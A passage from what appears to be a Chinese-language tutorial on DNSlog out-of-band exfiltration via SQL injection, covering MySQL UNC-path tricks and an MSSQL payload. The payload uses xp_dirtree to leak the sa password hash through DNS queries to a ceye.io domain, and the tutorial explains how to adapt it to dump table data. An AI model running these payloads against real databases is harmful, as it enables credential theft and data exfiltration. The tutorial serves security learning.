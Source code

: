 [![img](http://s5.51cto.com/oss/201802/10/aa1ac7f2cd91863586cb2c8e7bada0e6.jpg)](http://s5.51cto.com/oss/201802/10/aa1ac7f2cd91863586cb2c8e7bada0e6.jpg)

可以看到test_user中的pass字段的值的Hex码就被查询出来了，为什么这个地方Hex编码的目的就是减少干扰，因为很多事数据库字段的值可能是有特殊符号的，这些特殊符号拼接在域名里是无法做dns查询的，因为域名是有一定的规范，有些特殊符号是不能带入的。

注意：load_file函数在Linux下是无法用来做dnslog攻击的，因为在这里就涉及到Windows的一个小Tips——UNC路径。

(2) UNC路径

以下是百度的UNC路径的解释

其实我们平常在Widnows中用共享文件的时候就会用到这种网络地址的形式

```
\\sss.xxx\test\ 
```

这也就解释了为什么CONCAT()函数拼接了4个\了，因为转义的原因，4个就变\成了2个\，目的就是利用UNC路径。

```
tips： 
```

因为Linux没有UNC路径这个东西，所以当MySQL处于Linux系统中的时候，是不能使用这种方式外带数据的

**2. msSQL**

(1) 先看看网上流传最多的POC：

```
DECLARE @host varchar(1024);  SELECT @host=(SELECT TOP 1master.dbo.fn_varbintohexstr(password_hash)FROM sys.sql_loginsWHERE name='sa')+'.ip.port.b182oj.ceye.io';  EXEC('master..xp_dirtree"\'+@host+'\foobar$"'); 
```

这个POC在数据库控制台执行的确是可以得到数据库中sa用户Hex编码之后的Hash的。但是实际要获得我们的test_user的表中的数据的时候，对POC需要一定的加工。

首先在sqlserver中字段名是不能和自定义函数名字冲突的，如果冲突需要用[]将字段包裹起来，如下图:

[![img](http://s3.51cto.com/oss/201802/10/3f778d6d91c2580e6dba6d441ca49351.jpg)](http://s3.51cto.com/oss/201802/10/3f778d6d91c2580e6dba6d441ca49351.jpg)

这里的user字段正好和系统的user()函数同名，所以字段需要[]包裹。

开始和域名拼接，发生如下图的情况

[![img](http://s1.51cto.com/oss/201802/10/4bbc14cd0c0018d7f07381ab989fa976.jpg)](http://s1.51cto.com/oss/201802/10/4bbc14cd0c0018d7f07381ab989fa976.jpg)

然后发现拼接起来的字符串有空格，这是因为在sqlserver中当需要字符串拼接的时候，如果字段的值的长度没有达到表结构字段的长度，就会用空格来填充

[![img](http://s5.51cto.com/oss/201802/10/4d0dc1f81d19d9ecfc2e4b24b54a5c33.jpg)](http://s5.51cto.com/oss/201802/10/4d0dc1f81d19d9ecfc2e4b24b54a5c33.jpg)

这里我的pass字段设置的长度是50，所但是值实际的长度是8，之所以剩余的长度就用空格填充了。这个时候就用想办法去掉空格，查阅手册可以发现rtrim函数是可以去除右边空格的，如下图

[![img](http://s2.51cto.com/oss/201802/10/46536106ec0d08215716b2481a24ecf0.jpg)](http://s2.51cto.com/oss/201802/10/46536106ec0d08215716b2481a24ecf0.jpg)

开始编码，前面说过域名是不能带有些特殊字符的，所以我们最好能将查询出来的值编码之后再和域名进行拼接，但是在查阅了sqlserver的手册之后，没有发现可以直接对字符类型进行编码的函数，只有将2进制转换成Hex的函数，所以这里我需要先将字符类型强制转换成varbinary二进制类型，然后再将二进制转化成Hex编码之后的字符类型。先转换成二进制
